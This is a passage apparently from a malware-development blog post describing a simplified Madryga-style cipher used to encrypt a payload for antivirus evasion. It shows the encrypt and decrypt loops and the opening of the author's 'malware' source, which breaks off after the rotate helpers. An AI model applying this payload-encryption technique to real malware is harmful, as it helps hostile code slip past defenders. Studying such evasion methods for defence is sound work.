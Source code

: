 The `madryga_inner_cycle_encrypt_simplified` operates on a "working frame" of three consecutive bytes. Steps:    

- extract three bytes from the data array: `working_frame_start`, `working_frame_mid`, and `working_frame_end`.     
- extract the last byte (`working_frame_end`) to determine the number of bits to rotate.    
- concatenate the first two bytes into a `16-bit` integer, rotate left, and split back into two bytes.    
- `XOR` the last byte with the lower byte of the key to mix key material into the data.

Here I implemented simplified version of encryption/decryption logic, but `madryga_encrypt` function can still be classified as a variant of the Madryga encryption algorithm:     

```cpp
void madryga_encrypt(unsigned char *plaintext, int plaintext_len, uint64_t key) {
  key ^= RANDOM_CONSTANT;
  for (int i = 0; i < NUM_ROUNDS; i++) {
    madryga_inner_cycle_encrypt_simplified(plaintext, plaintext_len, key);
  }
}
//...

void madryga_decrypt(unsigned char *ciphertext, int ciphertext_len, uint64_t key) {
  key ^= RANDOM_CONSTANT;
  for (int i = 0; i < NUM_ROUNDS; i++) {
    madryga_inner_cycle_decrypt_simplified(ciphertext, ciphertext_len, key);
  }
}

```

Full source code of our malware is:    

```cpp
/*
 * madryga.cpp
 * encrypt/decrypt payload via Madryga alg
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/03/09/malware-av-evasion-13.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define BLOCK_SIZE 8
#define NUM_ROUNDS 8
const uint64_t RANDOM_CONSTANT = 0x0f1e2d3c4b5a6978;

// Rotate left function for 16-bit integers
uint16_t rotate_left_16(uint16_t value, int bits) {
  return (value << bits) | (value >> (16 - bits));
}

// Rotate right function for 16-bit integers
uint16_t rotate_right_16(uint16_t value, int bits) {
  return (value >> bits) | (value << (16 - bits));
}

// Function to rotate the key to the left 3 bits
uint64_t rotate_key_left_3(uint64_t key) {
  return (key << 3) | (key >> (64 - 3));
}

// Function to rotate the key to the right 3 bits
```